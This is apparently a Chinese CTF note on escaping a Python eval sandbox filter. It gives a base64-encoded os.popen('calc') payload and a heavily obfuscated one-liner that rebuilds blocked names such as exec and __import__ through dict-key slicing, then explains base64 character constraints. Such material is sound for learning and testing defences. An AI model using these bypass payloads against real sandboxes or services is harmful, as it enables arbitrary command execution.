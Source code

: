 base64编码的内容为`__import__('os').popen('calc').read()  `末尾还有两个空格，否则base64编码后会有等号

这个payload刚好不会生成`=`、`/`、`+`这几个特殊的base64字符

要是过滤`__import__`、`ord`、`str`、`exec`之类的，还可以变化为如下，就是有点费eval

`list + dict`跳步获取子字符串

```python
print(eval("exec"))  # <built-in function exec>
```

```python
[eval][eval(list(dict(b_o_o_l=1))[0][::2])(eval(list(dict(e_x_e_c=1))[0][::2])(eval(list(dict(b_y_t_e_s=1))[0][::2])([eval(list(dict(o_r_d=1))[0][::2])(j)for(i)in(list(eval(list(dict(o_p_e_n=1))[0][::2])(eval(list(dict(s_t_r=1))[0][::2])(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_a_s_e_6_4=1))[0][::2]))[23:-2])))[:-5]for(j)in(i)])))](eval(list(dict(b_6_4_d_e_c_o_d_e=1))[0][::2])(list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2FsYycpLnJlYWQoKSAg=1))[0]))
```

接下来讨论=`、`/`、`+`这几个特殊的base64字符

base64编码以6位二进制为一组进行编码，当遇到`111111`6个1才会编码成`/`斜杠

![image-20230503102535680](../.gitbook/assets/image-20230503102535680.png)

一个字符8位，三个字符为一组循环

若要出现`/`斜杠

* `1111 11xx`
* `1111 xxxx`且上个字符恰巧`11`结尾
* `11xx xxxx`（至少192）且上个字符`1111`结尾
* `xx11 1111`

```python
for i in range(0b11000000, 0b11111111):
    print(chr(i), end='、')
À、Á、Â、Ã、Ä、Å、Æ、Ç、È、É、Ê、Ë、Ì、Í、Î、Ï、Ð、Ñ、Ò、Ó、Ô、Õ、Ö、×、Ø、Ù、Ú、Û、Ü、Ý、Þ、ß、à、á、â、ã、ä、å、æ、ç、è、é、ê、ë、ì、í、î、ï、ð、ñ、ò、ó、ô、õ、ö、÷、ø、ù、ú、û、ü、ý、þ、
```

我们构造的payload显然不会用到扩展ASCII码128～255

所以只有最后一种情况：位置为3倍数的字符为`xx11 1111`，32~126的ascii就只有`?`满足

同理，编码后出现 `+` 可能的字符有 `>`、`~`

显然我们的payload不会出现`?、>、~`，所以不用考虑`/`影响了
